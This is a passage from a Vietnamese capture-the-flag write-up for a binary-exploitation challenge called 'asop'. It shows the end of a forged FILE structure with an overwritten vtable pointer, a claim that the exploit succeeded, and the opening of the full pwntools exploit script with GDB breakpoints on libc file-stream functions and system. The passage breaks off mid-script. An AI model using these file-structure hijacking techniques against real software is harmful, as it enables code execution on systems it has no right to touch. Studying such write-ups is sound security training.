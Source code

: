 ```python=
    p64(0),                     # 0xb0      176     - `_unused5`
    p64(0),                     # 0xb8      184     - `_unused6`
    p64(0),                     # 0xc0      192     - `_unused7`
    p64(0),                     # 0xc8      200     - `_unused8`
    p64(0),                     # 0xd0      208     - `_unused9`
    p64(vta),                   # 0xd8      216     - `vtable`
)
```
Và ta cho chạy script:
![{C25AB2AB-C6FC-49D6-89B1-5352799AB017}](https://hackmd.io/_uploads/r11H5ttayg.png)
Vậy ta đã đạt được mục tiêu khai thác.

=> **Challenge hoàn thành !**

## FULL SCRIPT
```python=
#!/usr/bin/env python3

from pwn import *

exe = ELF('asop_patched', checksec=False)
libc = ELF('libc.so.6', checksec=False)
context.binary = exe

info = lambda msg: log.info(msg)
s = lambda data, proc=None: proc.send(data) if proc else p.send(data)
sa = lambda msg, data, proc=None: proc.sendafter(msg, data) if proc else p.sendafter(msg, data)
sl = lambda data, proc=None: proc.sendline(data) if proc else p.sendline(data)
sla = lambda msg, data, proc=None: proc.sendlineafter(msg, data) if proc else p.sendlineafter(msg, data)
sn = lambda num, proc=None: proc.send(str(num).encode()) if proc else p.send(str(num).encode())
sna = lambda msg, num, proc=None: proc.sendafter(msg, str(num).encode()) if proc else p.sendafter(msg, str(num).encode())
sln = lambda num, proc=None: proc.sendline(str(num).encode()) if proc else p.sendline(str(num).encode())
slna = lambda msg, num, proc=None: proc.sendlineafter(msg, str(num).encode()) if proc else p.sendlineafter(msg, str(num).encode())
r = lambda nbytes: p.recv(nbytes)
ru = lambda data: p.recvuntil(data)
rl = lambda : p.recvline()
ra = lambda : p.recvall()
def GDB():
    if not args.REMOTE:
        gdb.attach(p, gdbscript='''
        b*_IO_wfile_underflow
        b*puts
        b*puts+200
        b*_IO_wfile_underflow+7549
        b*system-744
        c
        ''')
        input()
        # p = gdb.debug([exe.path],"""
        #     b*
        #     c
        #     """)
        # return p


if args.REMOTE:
    p = remote('')
else:
```